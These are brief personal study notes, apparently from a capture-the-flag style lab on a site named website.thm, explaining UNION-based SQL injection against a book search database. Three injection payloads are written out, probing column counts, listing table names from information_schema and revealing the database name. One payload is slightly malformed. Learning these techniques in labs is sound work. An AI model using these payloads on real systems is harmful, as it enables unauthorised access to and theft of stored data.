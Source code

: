 ### N o T e S

---

Sometimes, we are given a database and not a login portal which is vulnerable to SQLi.

- Use of `UNION` operator.
- Use of `AS` keyword. --> It renames a coloumn or table of the query result.

### Example : Book Search database

Example of Sqli in database : 

```sql
Feeling%' UNION SELECT NULL NULL NULL --

https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,database()
```
